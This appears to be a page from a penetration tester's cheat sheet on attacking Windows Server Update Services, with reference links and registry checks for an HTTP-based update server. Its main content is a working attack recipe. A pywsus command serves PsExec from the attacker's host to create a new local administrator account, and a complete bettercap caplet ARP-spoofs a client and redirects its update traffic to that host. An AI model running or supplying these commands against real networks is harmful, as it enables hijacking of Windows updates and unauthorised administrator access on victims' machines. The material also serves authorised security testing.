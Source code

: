 ```yaml
---
description: Windows Server Update Services
---
```


# WSUS

* [https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#wsus](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#wsus)




## WSUS HTTP (MitM)

* [https://www.blackhat.com/docs/us-15/materials/us-15-Stone-WSUSpect-Compromising-Windows-Enterprise-Via-Windows-Update.pdf](https://www.blackhat.com/docs/us-15/materials/us-15-Stone-WSUSpect-Compromising-Windows-Enterprise-Via-Windows-Update.pdf)
* [https://github.com/GoSecure/pywsus](https://github.com/GoSecure/pywsus)
* [https://www.gosecure.net/blog/2020/09/03/wsus-attacks-part-1-introducing-pywsus/](https://www.gosecure.net/blog/2020/09/03/wsus-attacks-part-1-introducing-pywsus/)
* [https://www.thehacker.recipes/systems-and-services/privilege-escalation/windows/wsus-attacks](https://www.thehacker.recipes/systems-and-services/privilege-escalation/windows/wsus-attacks)

Check:

```
PS > reg query HKLM\Software\Policies\Microsoft\Windows\WindowsUpdate\AU /v UseWUServer

HKLM\Software\Policies\Microsoft\Windows\WindowsUpdate\AU /v UseWUServer
      UseWUServer    REG_DWORD    0x1

PS > reg query HKLM\Software\Policies\Microsoft\Windows\WindowsUpdate /v WUServer

HKLM\Software\Policies\Microsoft\Windows\WindowsUpdate /v WUServer
      WUServer    REG_SZ    http://wsus.megacorp.local:8530
```

Exploit:

```
$ python3 pywsus.py --host $ATTACKER_IP --port 8530 --executable /home/snovvcrash/www/PsExec64.exe --command '/accepteula /s cmd.exe /c "net user testuser /add && net localgroup Administrators testuser /add"'
$ sudo ./bettercap --iface $INTERFACE --caplet wsus.cap
```

{% code title="wsus.cap" %}
```bash
# Quick recon of the network
net.probe on

# Set the ARP spoofing
set arp.spoof.targets $CLIENT_IP
set arp.spoof.internal false
set arp.spoof.fullduplex false

# Re-route traffic aimed at the WSUS server
set any.proxy.iface $INTERFACE
set any.proxy.protocol TCP
set any.proxy.src_address $WSUS_SERVER_IP
set any.proxy.src_port 8530
set any.proxy.dst_address $ATTACKER_IP
set any.proxy.dst_port 8530

# Control logging and verbosity
events.ignore endpoint
events.ignore net.sniff

# Start the modules
any.proxy on
arp.spoof on
net.sniff on
```
{% endcode %}




## WSUS Local Proxy (LPE)

* [https://www.gosecure.net/blog/2020/09/08/wsus-attacks-part-2-cve-2020-1013-a-windows-10-local-privilege-escalation-1-day/](https://www.gosecure.net/blog/2020/09/08/wsus-attacks-part-2-cve-2020-1013-a-windows-10-local-privilege-escalation-1-day/)
